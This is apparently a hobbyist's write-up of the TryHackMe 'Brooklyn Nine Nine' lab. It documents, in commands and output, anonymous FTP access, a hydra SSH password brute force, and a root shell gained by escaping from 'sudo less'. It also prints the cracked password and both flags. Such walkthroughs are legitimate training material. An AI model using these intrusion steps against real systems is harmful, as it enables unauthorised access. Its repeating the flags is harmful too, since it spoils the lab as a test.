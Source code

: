 # Brooklyn Nine Nine - THM

## Enumeration 

### Let's start with the nmap scan 
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-21 02:34 IST
Nmap scan report for 10.10.139.54
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.52.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.08 seconds

```

### Here we find that we can access ftp by anonymous login, and after loggin in we find a file note_to_jake.txt
```
└─$ ftp 10.10.139.54                            
Connected to 10.10.139.54.
220 (vsFTPd 3.0.3)
Name (10.10.139.54:sig): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.16 secs (0.7253 kB/s)
```
### File contains 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
### From here we get to know that there is user names jake 

### Now lets try to bruteforce the creds using hydra 
```
hydra -l jake -P /home/sig/Downloads/rockyou.txt ssh://10.10.139.54    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-21 02:38:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.139.54:22/
[22][ssh] host: 10.10.139.54   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-21 02:39:27

```

### BOOOOOMMMMMMM!!!!!!!!!!! Here are the creds 
```
jake:987654321
```

### And here we got the initial foothold to the webserver 

### After some manual enumeration we find the user flag in "holt" directory 
```
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt

```

### And here we got our user flag i.e
```
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

## Prev esc 

### By doing sudo -l we find we can run less as sudo for all users that will help us to get the root flag
```
jake@brookly_nine_nine:/home/holt$ sudo -l

Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

### So by running sudo as root we can see the root flag i.e 
```
jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt

```

### From using the command we can see our root flag i.e 
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
### Or by using GTFO bins we find 
```


    sudo less /etc/profile
    !/bin/sh


```
### To get the root shell
```
# whoami
root
# cat root.txt
cat: root.txt: No such file or directory
# pwd  
/home/holt
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 

```
### And here we sucesssfully compromised with the machine

### It's and easy machine 
## <3 BY SIG WOTTS
                    
